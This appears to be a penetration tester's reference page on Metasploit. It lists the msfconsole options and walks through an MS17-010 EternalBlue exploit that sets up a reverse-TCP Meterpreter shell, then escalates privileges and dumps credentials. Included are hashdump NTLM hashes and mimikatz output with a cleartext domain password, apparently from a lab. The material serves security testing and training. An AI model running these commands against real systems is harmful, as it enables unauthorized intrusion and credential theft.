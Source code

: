 ```yaml
---
title : "Metasploit"
# pre : ' '
description : "The world's most used penetration testing framework."
date : 2020-03-11T16:59:30+01:00
# hidden : true
# draft : true
weight : 0
# tags : [""]
---
```


## Metasploit

The world's most used penetration testing framework.

## Installation

Please use [Kali Linux](https://www.kali.org/)

Download newest release from [Github.com](https://github.com/rapid7/metasploit-framework/releases)

## Usage

```plain
msfconsole [options]
```

## Flags

```plain
Usage: msfconsole [options]

Common options:
    -E, --environment ENVIRONMENT    Set Rails environment, defaults to RAIL_ENV environment variable or 'production'

Database options:
    -M, --migration-path DIRECTORY   Specify a directory containing additional DB migrations
    -n, --no-database                Disable database support
    -y, --yaml PATH                  Specify a YAML file containing database settings

Framework options:
    -c FILE                          Load the specified configuration file
    -v, -V, --version                Show version

Module options:
        --defer-module-loads         Defer module loading unless explicitly asked.
    -m, --module-path DIRECTORY      Load an additional module path

Console options:
    -a, --ask                        Ask before exiting Metasploit or accept 'exit -y'
    -H, --history-file FILE          Save command history to the specified file
    -L, --real-readline              Use the system Readline library instead of RbReadline
    -o, --output FILE                Output to the specified file
    -p, --plugin PLUGIN              Load a plugin on startup
    -q, --quiet                      Do not print the banner on startup
    -r, --resource FILE              Execute the specified resource file (- for stdin)
    -x, --execute-command COMMAND    Execute the specified console commands (use ; for multiples)
    -h, --help                       Show this message
```

### Meterpreter examples

### getsystem

```plain
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

### hashdump

```plain
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
janedo:1110:aad3b435b51404eeaad3b435b51404ee:f3fe13546c4c0d2db443a0865626203b:::
[...]
```

## Examples

### MS17-010 - Eternalblue

{{%attachments title="Related files" fa_icon_class="far fa-file-video" pattern="ms17-010.*(mp4)"/%}}

### Scanner

```plain
msf5 > use auxiliary/scanner/smb/smb_ms17_010
```

### Exploit

```plain
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 > set rhost <target>
msf5 > set payload windows/x64/meterpreter/reverse_tcp
msf5 > set lhost <own-system>
msf5 > run
```

```plain
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
janedo:1110:aad3b435b51404eeaad3b435b51404ee:f3fe13546c4c0d2db443a0865626203b:::
[...]

meterpreter > load kiwi
Loading extension kiwi...
mimikatz 2.2.0 20191125 (x64/windows)
Success.

meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain   NTLM                              SHA1                                      LM
--------       ------   ----                              ----                                      --
Administrator  OFFSEC   97f2592347d8fbe42be381726ff9ea83  d0321e2e4e0712ba7b3f8c1998931312bf6a8b05  12a3cf9e7ff5e329f76ccb47241e3d88
DC2008R2$      OFFSEC   34acde5ae873319558ae6f191e8877bf  186dfbdbae180d8eb4c4406b03250e5194adf6af  

wdigest credentials
===================

Username       Domain   Password
--------       ------   --------
(null)         (null)   (null)
Administrator  OFFSEC   Welkom1234
[...]
```

## URL List

* [Metasploit.com](https://www.metasploit.com/)
* [Offensive-security.com Meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
* [GitHub.com - Metasploit framework](https://github.com/rapid7/metasploit-framework)
